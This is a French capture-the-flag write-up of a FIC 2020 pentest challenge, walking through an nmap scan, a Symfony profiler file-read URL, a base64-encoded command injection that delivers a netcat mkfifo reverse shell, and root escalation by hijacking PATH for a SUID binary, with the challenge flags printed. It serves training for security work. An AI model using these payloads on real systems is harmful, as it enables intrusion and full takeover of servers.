# What The FIC

## Découvrez les solutions d’un des challenges pentest proposés au FIC 2020.  

### Enoncé : Vous avez accès à une machine d’attaque, et vous devez prendre le contrôle complet du server victime

### Niveau : Moyen

### Temps : 20/25 mns

### Description

L'utilisation d'une API/SPA (Single Page Application) ne veut pas dire que vous êtes en sécurité.
Trouvez votre chemin pour devenir root.

# Solution 

Le participant devait lancer la commande suivante de façon à identifier les ports ouverts sur la machine : `nmap -sV -Pn -p- 192.168.1.24`
Suite à cela, il remarque que les ports 4201, 8000 et 22 sont disponibles.

Sur le port 4201 après lecture des fichiers javascripts, nous trouvons une interface web codée en Angular.


**Source: Orange Cyberdefense**

Suite à la soumission de données de test, nous voyons que notre SPA discute avec une API sur le port 8000 utilisant le framework symfony. Le but de l'attaquant est donc de trouver un compte pour voir ce qu'il se cache derrière cette API.
Tout d'abord, il faut savoir que sur ce framework backend, il est de coutume de créer des fichiers de type `Fixture`.

Ces fichiers servent à agrémenter la base de donnée à l'aide d'object php. Par la suite les développeurs jouent avec les migrations pour faire évoluer la base.

Par ailleurs, les personnes qui sont familières avec symfony savent qu'il est possible d'utiliser le profiler de la façon suivante : `http://<target>/app_dev.php/_profiler/open?file=<PATH>` pour faire une "Local File Inclusion"(LFI).

Pour cela, il y avait deux façons de faire : 

* La première consiste à profiter de la négligence du développeur qui a laissé le profiler de symfony sur un environnement de production ce qui lui permet, via une LFI, de lire des fichiers. 

En l'occurrence, il lui fallait trouver le fichier `Fixture.php` dans `src/AppBundle/DataFixture/ORM/`

Il obtenait donc l'utilisateur `clemence97`


*Source: Orange Cyberdefense*

* La seconde possibilité était d'utiliser un outil de fuzzing type Gobuster/dirsearch pour trouver la route suivante : 


*Source: Orange Cyberdefense*

Une fois le compte obtenu, il suffit de se connecter sur la webapp pour se rendre compte qu'il existe un bouton `check status` qui va sûrement vérifier la disponibilité du serveur.


*Source: Orange Cyberdefense*

En regardant de plus près la requête, nous nous apercevons qu'une chaine de caractère en base64 est envoyée au serveur en paramètre `GET`.

Lorsqu'on décode celle-ci `echo "bG9jYWxob3N0" | base64 --decode`, nous obtenons: `localhost`

Nous supposons qu'un ping est effectué et allons donc essayer de faire de l'injection de commande pour obtenir un reverse shell sur la machine.

Pour cela, nous créons un serveur d'écoute (192.168.1.24 sur le port 1337) qui réceptionnera notre connexion.
Puis nous encodons le reverse shell suivant en base64: `;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.24 1337 >/tmp/f` 
Nous obtenons alors ce payload : `O3JtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDE5
Mi4xNjguMS4yNCAxMzM3ID4vdG1wL2YK` et l'ajoutons dans le paramètre vulnérable.


*Source: Orange Cyberdefense*

Une fois le shell obtenu, il suffit de se rendre dans le home de l'utilisateur giorgio pour récupérer le contenu du fichier `user.txt` : `OCD{T4ke_Car3_4b0ut_RIghtS}`

## Elévation de privilèges 

A ce stade du challenge, le candidat se rend compte que les droits du shell obtenus sont limités (Utilisateur `giorgio`). Il devra ainsi élever ses privilèges afin d'obtenir les privilèges `root` et par la même occasion le dernier flag du challenge. 

Suite à de rapides investigations, nous comprenons ce que nous devons exploiter afin d'élever nos privilèges :


*Source: Orange Cyberdefense*

Il y a en effet un binaire SUID root nommé  `HarmfulBinary`, ainsi qu'un fichier caché (`.hint.txt`).

Nous essayons d'interagir avec ce binaire afin de déceler d'éventuelles vulnérabilités :


*Source: Orange Cyberdefense*

L'analyse de ce fichier caché *qui fait penser à la sortie de la commande strace sur le binaire* nous permet de déceler un certain nombre d'appels système `execve` intéressants :


*Source: Orange Cyberdefense*

Le binaire HarmfulBinary essaye d'exécuter sans succès (`No such file or directory`) un autre binaire appelé `reallysuspiciousbin` via plusieurs chemins différents. Ces chemins utilisés nous font penser à la variable d'environnement `PATH`. Nous vérifions cela en affichant le contenu de cette variable d'environnement :


*Source: Orange Cyberdefense*

L'utilisateur giorgio maîtrisant cette variable d'environnement qui lui est propre, l'idée de cette étape est tout d'abord de modifier cette variable d'environnement afin d'inclure un chemin qu'on maîtrise (sur lequel on a les droits d'écriture) :


*Source: Orange Cyberdefense*

Il est possible de vérifier que le binaire `/home/giorgio/reallysuspiciousbin` est bien appelé (mais n'est pas trouvé car le binaire n'existe pas dans `/home/giorgio`) en réitérant la commande `strace`. L'idée est maintenant de créer un binaire malveillant appelé `reallysuspiciousbin` dans notre répertoire personnel pour qu'il soit exécuté avec les droits root lors de l'appel au binaire `HarmfulBinary`. 

Pour cela, nous utiliserons un binaire compilé en C. Il n'est pas possible d'utiliser un script du fait que le Kernel supprime les droits suid sur des fichiers de type script.

Le rôle de ce binaire est de créer un interpréteur Bash avec les droits suid root :


*Source: Orange Cyberdefense*

Notre binaire `reallysuspiciousbin` étant prêt, il suffit de réexecuter de nouveau le binaire SUID `HarmfulBinary` pour activer notre payload :


*Source: Orange Cyberdefense*

Il ne nous reste plus qu'à exécuter via la commande suivante `cat /root/root.txt` pour obtenir le flag `OCD{Priv3esc_Is_Life_M@mene}`